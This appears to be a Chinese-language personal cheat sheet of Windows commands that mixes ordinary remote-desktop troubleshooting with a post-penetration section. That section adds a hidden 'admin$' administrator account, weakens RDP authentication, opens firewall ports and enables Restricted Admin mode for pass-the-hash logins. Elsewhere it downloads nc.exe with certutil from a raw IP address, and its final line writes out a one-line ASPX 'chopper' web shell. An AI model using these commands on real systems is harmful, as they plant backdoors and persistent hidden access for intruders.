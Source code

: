 

## 下载文件

certutil -urlcache -split -f http://11.1.63.39/nc.exe

powershell
```ts
$client = new-object System.Net.WebClient
$client.DownloadFile(‘http://payloads.online/file.tar.gz', ‘E:\file.tar.gz’)
```
### certuil
```
certuil -encode in out # 转base64
certuil -decode out in # 还原
```
## 渗透后置操作

```bat
net user admin$ tuser321 /add
net localgroup administrators admin$ /add
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow

:: 开启远程
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
:: 开启远程 方法2
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f  
:::: 开启PTH登录 //开启Restricted Admin mode
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f 

echo 远程桌面端口 port number is 
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber

gpupdate /force
# 查看开了哪些端口
netstat -aon

:: 关闭远程
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /D 0 /f
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 0
```

## FAQ
### 剪贴板突然不能用了

```sh
taskkill /im rdpclip.exe /f
rdpclip.exe
# gpedit.msc，计算机配置->管理模板->Windows 组件->远程桌面服务->远程桌面会话主机->设备和资源重定向->不允许剪贴板重定向，设置为无配置
# https://blog.51cto.com/u_14286115/5193293
```

###  终端服务器超过最大允许连接数
远程桌面界面，在地址栏上 1.1.58.58:65535 /admin

或cmd `mstsc /admin /v:1.1.58.58:65535` ,  此方式不能操作剪贴版
### cmd下信息乱码

```shell
# set utf8
chcp 65001
```

### 终端操作
```
# 查询
qwinsta 查询连接
query session
query user
# kill
log off <id>
tsdiscon rdp-tcp#946
rwinsta <id>关闭连接
```

## TODO
1.TODO: 终端服务器超过最大允许连接数 修改
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 10 /f

# https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.TerminalServer::TS_MAX_CON_POLICY
tsadmin 可看连接
```
## 查找文件 
win7以上
```ts
find F:\Downloads #查找目录下所有文件　
find F:\Downloads | findstr Apifox      # 过滤Apifox
```
xp/2003

dir \calendar /s
dir D:\ /s | findstr /i txt >c:\tmp.txt


## 端口转发
win7以上
```bash
netsh interface portproxy add v4tov4 listenport=4546 connectaddress=1.1.58.59 connectport=1521
netsh interface portproxy delete v4tov4 listenport=4546 listenaddress=1.1.58.58
netsh interface portproxy show all
netsh interface portproxy reset
```


## 注册表添加删除程序
x64
HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\

## echo 相关

转义用^

aspx
```
echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["chopper"],"unsafe");%^>  >1
```
